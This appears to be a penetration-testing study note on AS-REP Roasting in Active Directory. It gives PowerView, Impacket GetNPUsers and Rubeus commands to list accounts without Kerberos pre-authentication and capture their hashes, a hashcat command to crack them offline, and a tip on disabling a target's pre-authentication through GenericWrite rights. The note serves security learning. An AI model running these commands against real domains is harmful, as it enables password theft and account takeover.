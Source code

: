 alias:: ASREPRoast
public:: true

- In case the [Kerberos Pre-Authentication](((655b158a-a666-41e0-8076-e59942a7bb20))) is not enabled for one or more domain users, an [AS-REQ](((655b1c01-e1e1-4be0-b245-ff8c9482df38))) can be forged without knowing their password (or the hash) and sent to KDC on their behalf.
- Once the [AS-REP](((655b1795-7a37-4e7f-b428-6c9a34ab2cbf))) is returned from the domain controller, [the encrypted part of the response](((655a201b-448f-45dc-a8b7-2c8978dde0c2))) can be brute-forced offline to retrieve the user password.
- #+BEGIN_NOTE
  Please note that in order to execute most of the following commands you need be able to query the DC. Hence, you need access to a valid domain user.
  #+END_NOTE
	- From Windows via PowerView
		- Retrieve the list of users with [Kerberos Pre-Authentication disabled](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainUser/).
		  id:: 655cf631-e9b4-4a1f-99d0-45c801c69f8c
		  ```powershell
		  Get-DomainUser -KerberosPreuthNotRequired
		  ```
		  Retrieve the list of users with Kerberos Pre-Authentication disabled **and don't have an expired password**.
		  ```powershell
		  Get-DomainUser -UACFilter DONT_REQ_PREAUTH,NOT_PASSWORD_EXPIRED
		  ```
	- From Linux via [[Impacket GetNPUsers]]
		- id:: 5971e61f-2ed6-4dd2-91a6-1752dfb51de7
		  ```bash
		  impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/pete
		  ```
- id:: 655cf4a9-95ae-4eb8-be69-cd1fb9b251c6
  #+BEGIN_TIP
  If you have GenericWrite/GenericAll rights over a target user, you can maliciously [modify their userAccountControl](https://learn.microsoft.com/en-US/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) to [not require preauth](((655b158a-a666-41e0-8076-e59942a7bb20))), use [[AS-REP Roasting]] , and then reset the value.
  #+END_TIP
- Retrieve ASREPRoast hashes
	- From Linux with [[Impacket GetNPUsers]]
		- id:: 655cf20b-a6e7-4003-8049-8d922905d0b1
		  ```bash
		  impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
		  ```
			- `-request` - is specified to request the [TGT](((655a4269-21dc-4947-a21d-5c89e404b561))).
			- `corp.com/pete` - is the domain user from where we can query the DC. We'll need to input his password.
			- `-outputfile hashes.asreproast` - file to save captured hashes.
				- Default output is for [[Hashcat]]. The generate [[JTR]] compatible hash use `--format john`
	- From Windows with [[Rubeus]]
		- id:: 655cf178-e37d-4ab0-9e2b-e16c2ff7c94f
		  ```powershell
		  .\Rubeus.exe asreproast /format:hashcat /outfile:C:\Temp\hashes.asreproast
		  ```
			- By default only users that have the property [*Do not require Kerberos preauthentication*](((655b158a-a666-41e0-8076-e59942a7bb20))) set are processed. For the full `asreproast` command usage [check here](https://github.com/GhostPack/Rubeus#asreproast).
			- `/format:hashcat` - Generate [[Hashcat]] compatible hash, the default output is for [[JTR]].
			- `/outfile:` - file to save captured hashes.
- Crack **Kerberos 5 AS-REP** hashes via [[Hashcat]] with the [`-m 18200`](https://hashcat.net/wiki/doku.php?id=example_hashes) option.
  id:: 655cd6cd-968a-4756-b77f-35c47110ad33
  ```bash
  sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt \
  	-r /usr/share/hashcat/rules/best64.rule --force
  ```
	- `-m 18200` - specifies the correct mode
	- `hashes.asreproast` - is the file with the hashes, as it was output by `impacket-GetNPUsers` or `Rubeus`
	- `rockyou.txt` - the wordlist we want to use
	- `best64.rule` - the rules to apply to the wordlist
	- `--force` - to run `hashcat` in Kali